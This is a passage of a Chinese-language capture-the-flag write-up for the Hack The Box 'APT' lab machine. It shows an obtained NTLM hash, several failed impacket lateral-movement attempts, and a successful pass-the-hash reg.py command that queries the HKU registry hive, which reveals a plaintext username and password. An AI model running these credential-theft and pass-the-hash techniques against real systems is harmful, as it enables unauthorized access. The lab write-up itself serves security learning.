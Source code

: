 获得 henry.vinson hash: aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb

>aad3b435b51404eeaad3b435b51404ee 空密码的 LM HASH

# impacket 横向移动工具

## WinRM failed

![](https://i.328888.xyz/2023/04/02/iHggIH.png)

## psexec.py failed

能列出相应的目录，但无写权限

![](https://i.328888.xyz/2023/04/02/iHge2C.png)

## wmiexec.py dcomexec.py smbexec.py failed

![](https://i.328888.xyz/2023/04/02/iHg6PX.png)

## reg.py success

注册表信息提取工具

**HKU: host key user: 存储用户凭据相关信息**

```shell
~/Hackthebox-APT
> python3 /tools/impacket/examples/reg.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' -dc-ip htb.local htb.local/henry.vinson@htb.local query -keyName HKU\\
Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[!] Cannot check RemoteRegistry status. Hoping it is started...
HKU\
HKU\\Console
HKU\\Control Panel
HKU\\Environment
HKU\\Keyboard Layout
HKU\\Network
HKU\\Software
HKU\\System
HKU\\Volatile Environment
```

![](https://i.328888.xyz/2023/04/02/iHguup.png)

	UserName        REG_SZ   henry.vinson_adm
	PassWord        REG_SZ   G1#Ny5@2dvht

# 登录 henry.vinson
